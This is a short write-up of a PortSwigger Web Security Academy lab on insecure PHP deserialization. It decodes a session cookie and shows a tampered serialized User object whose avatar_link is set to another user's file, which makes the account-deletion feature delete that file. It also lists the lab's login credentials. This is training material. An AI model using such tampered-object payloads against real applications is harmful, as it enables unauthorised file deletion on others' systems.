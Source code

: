 ```yaml
---
title: 'Lab: Using application functionality to exploit insecure deserialization'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: Using application functionality to exploit insecure deserialization
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object.
* Goal: To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

    You can log in to your own account using the following credentials: wiener:peter
    You also have access to a backup account: gregg:rosebud


## Recon
1. Login and Recon
When you'd like to delete an account, the package would be like as below:
![](https://i.imgur.com/StLYuw0.png)

    Session: `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzdHB4YXlzZzRtdzJ4MHo5c3h2ajE4N3dmZWEweGY5NSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`
    Decoded String: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

    You can observe that it's not only delete your whole account but your avatar image. In addition, it provide the avatar link in decoded string: `users/wiener/avatar`

2. How about we modify the delete path?(<font color="FF0000">通靈</font>)

## Exp - Change the delete path
Exploit Payload:
```php!
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
:::spoiler Success Screenshot
![](https://i.imgur.com/JS21zkY.png)
:::